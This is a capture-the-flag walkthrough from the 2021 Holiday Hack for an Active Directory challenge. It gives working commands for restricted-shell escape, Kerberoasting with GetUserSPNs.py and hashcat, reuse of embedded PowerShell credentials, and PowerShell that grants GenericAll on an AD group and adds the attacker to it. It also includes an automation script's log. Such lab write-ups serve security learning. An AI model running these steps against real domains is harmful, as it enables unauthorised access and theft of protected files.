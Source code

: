 <h1 id="objective-8-kerberoasting-on-an-open-fire">Objective 8: Kerberoasting on an Open Fire</h1>
<p><strong>Location: Staging</strong><br>
<strong>Elf: Jingle Ringford</strong><br>
<strong>Hints provided by Eve Snowshoes after completion of <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/HoHo...No.md">HoHo … No</a></strong></p>
<p>The objective to obtain a secret research document.<br>
In order to get an account in the ELFU AD domain, a registration on <a href="https://register.elfu.org">https://register.elfu.org</a> is required.<br>
After that an individual username and password is provided which can be used to logon to <a href="http://grades.elfu.org">grades.elfu.org</a> using SSH on port 2222.</p>
<h3 id="escaping-application">Escaping Application</h3>
<p>After the SSH login an application is automatically started.<br>
It is possible to escape this application by sending an EOF (CTRL-D).</p>
<h3 id="escaping-python-shell">Escaping Python Shell</h3>
<p>After this a Python shell is displayed.<br>
In order to escape this <code>os.system.("bash")</code> has to be submitted in order to get to a normal Unix shell.</p>
<h3 id="reconnaissance">Reconnaissance</h3>
<p>An nmap scan of the network 10.128.0.0/22 two hosts providing Windows services: 10.128.1.53 (domain controller) and 10.128.3.30 (samba file server) with the shares <code>elfu_svc_shr</code> and <code>research_dep</code>.</p>
<h3 id="pulling-data-from-ad">Pulling data from AD</h3>
<p>Next the tool <code>ldapdomaindump</code> can be used in order to get an idea of the user&lt;-&gt;group&lt;-&gt;permission structure:</p>
<pre><code>ldapdomaindump 10.128.1.53 -u 'elfu\{userid}' -p '{password}'
</code></pre>
<p>This can be done manually or using Bloodhound.<br>
Bloodhound also reveals that the user <code>elfu_svc</code> is Kerberoastable.</p>
<p>The password hash for this Kerberoastable user can be obtained by running</p>
<pre><code>GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 'elfu.local/{userid}:{passworð}' -request
</code></pre>
<h3 id="cracking-the-password">Cracking the Password</h3>
<p>We follow the hints and prepare the password cracking as follows:<br>
We prepare a password list using CeWL, keeping in mind that explicitly also digits are valid as per the provided hint:</p>
<pre><code>./cewl.rb https://register.elfu.org/register --with-numbers -w wordlist
</code></pre>
<p>In addition, also following the hint, the OneRuleToRuleThemAll rule for Hashcat is downloaded:</p>
<pre><code>curl -OJ https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
</code></pre>
<p>Equipped with these tool, we can let Hashcat crack the password:</p>
<pre><code>hashcat -m 13100 -a0 spn.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 wordlist
</code></pre>
<p>Hashcat find the password for <code>elfu_svc</code> to be <code>Snow2021!</code>.</p>
<h3 id="access-to-elfu_svc_shr">Access to elfu_svc_shr</h3>
<p>With this information we can get access to the elfu_svc_shr file share in 10.128.3.30:</p>
<pre><code>smbclient -U elfu_svc '\\10.128.3.30\elfu_svc_shr'
</code></pre>
<p>On this share are several Powershell scripts. One of them, <code>GetProcessInfo.ps1</code> holds credentials for the <code>user remote_elf</code>:</p>
<pre><code>$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
</code></pre>
<h3 id="getting-into-group-research-department">Getting into group Research Department</h3>
<p>With the <code>remote_elf</code> credential snippet from the script, we can grant our windows domain user the <code>GenericAll</code> permissions for the group Research Department:</p>
<pre><code>Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "{userid}"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
</code></pre>
<p>and add then our user to this group:</p>
<pre><code>Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "ptsuxvdegy"
$password = "Scumpfccr#"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://&lt;SID=$hexSID&gt;")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()

} -Credential $aCred -Authentication Negotiate
</code></pre>
<h3 id="access-to-research_dep-share">Access to research_dep share</h3>
<p>After a few minutes, our new group membership gets replicated to the samba file server, so that we now have access to the secret document:</p>
<pre><code>smbclient '\\10.128.3.30\research_dep'
smb: \&gt; dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available

</code></pre>
<p>The <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Objective-8/SantaSecretToAWonderfulHolidaySeason.pdf">PDF document</a> lists <strong>Kindness</strong> as first secret ingredient for a wonderful holiday season.</p>
<h3 id="bonus-kerberoboting">Bonus: Kerberoboting</h3>
<p>This whole process was automated in an <code>expect</code> script named <code>kerberoboting</code>, so that you can enjoy a brew whilst your computer does the work.<br>
It just requires you to register at <a href="https://register.elfu.org">https://register.elfu.org</a>, have <code>hashcat</code> installed in the PATH and a working CeWL in the local directory:</p>
<pre><code>joergen@northpole:~$ ./kerberoboting jsfdgdsjjl 'Ndcopkmbo#'
#
# Kerberoboting in progress - get a brew and lean back
#

Retrieving the wordlist from register.elfu.org using CeWL
Retrieving the OneRuleToRuleThemAll rule for Hashcat
Logging on to grades.elfu.org using SSH
Escaping the application using &lt;EOF&gt;
Escaping the Python shell using os.system('bash')
These shares are available on the file server
smbclient -L '\\\\10.128.3.30'
Enter WORKGROUP\jsfdgdsjjl's password: 

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      
	sysvol          Disk      
	elfu_svc_shr    Disk      elfu_svc_shr
	research_dep    Disk      research_dep
	IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
Running GetUserSPNs.py using my user id to enumerate SPNs linked to user accounts and get their password hashes
Running Hashcat to crack the password
  ok. Password is Snow2021!
Getting access to samba \\\\10.128.3.30\elfu_svc_shr share as user elfu_svc
Obtaining file GetProcessInfo.ps1 which has credentials for remote_elf embedded
Granting myself GenericAll permissions on AD group Research Department and adding myself to it
Getting access to samba \\\\10.128.3.30\research_dep using my user id
dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available
smb: \\&gt; Getting file SantaSecretToAWonderfulHolidaySeason.pdf
Transferring file SantaSecretToAWonderfulHolidaySeason.pdf to local machine

 #
 # Have fun and explore more
 #

jsfdgdsjjl@grades:~$ 
</code></pre>
<p><strong>Achievement: Kerberoasting on an Open Fire</strong></p>

